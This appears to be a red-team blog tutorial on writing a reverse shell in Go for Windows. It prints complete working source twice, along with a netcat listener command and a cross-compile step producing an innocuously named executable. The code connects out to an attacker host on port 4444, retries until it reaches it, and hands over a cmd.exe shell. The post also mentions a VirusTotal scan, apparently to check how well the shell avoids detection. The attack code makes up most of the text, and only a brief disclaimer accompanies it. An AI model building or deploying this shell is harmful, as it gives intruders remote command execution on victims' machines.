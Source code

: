 ```yaml
---
layout: post
title: "2024-06-19 Reverse Shell in Go"
date: 2024-06-19
categories: Windows Reverse Shell
tags: redteam, mitre, killchain, cpent, LPT, cpts, oscp, exploit
permalink: /go-revshell/
---
```

# Building a Reverse Shell in Go

In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

## Understanding the Code

Let's break down the code step by step:

 ### Package and Imports

```go
package main

import (
    "fmt"
    "net"
    "os"
    "os/exec"
    "time"
)
```

- `package main`: Indicates that this Go file is the main package, which can be executed.
- `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

### Variables

```go
var (
    a1 = "192.168.23.129"
    a2 = 4444
)
```

- `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

### Function `e1()`

```go
func e1() {
    if a1 == "0.0.0.0" || a2 == 0 {
        fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
        os.Exit(1)
    }
}
```

- `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

### Function `e2()`

```go
func e2() net.Conn {
    var c net.Conn
    var err error
    for {
        c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
        if err == nil {
            break
        }
        time.Sleep(5 * time.Second)
    }
    return c
}
```

- `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

### Function `e3()`

```go
func e3(c net.Conn) {
    cmd := exec.Command("cmd")
    cmd.Stdin = c
    cmd.Stdout = c
    cmd.Stderr = c
    err := cmd.Start()
    if err != nil {
        fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
        os.Exit(1)
    }
    cmd.Wait()
}
```

- `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

### Main Function

```go
func main() {
    e1()
    c := e2()
    e3(c)
}
```

- The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

### Running the Code

To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

```bash
nc -nlvp 4444
```

Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


### Virustotal Scan
![alt text](/_posts/go-revshell.png)
    
 ### session

![alt text](/_posts/go-revshell-2.png)


#peacout #opensource


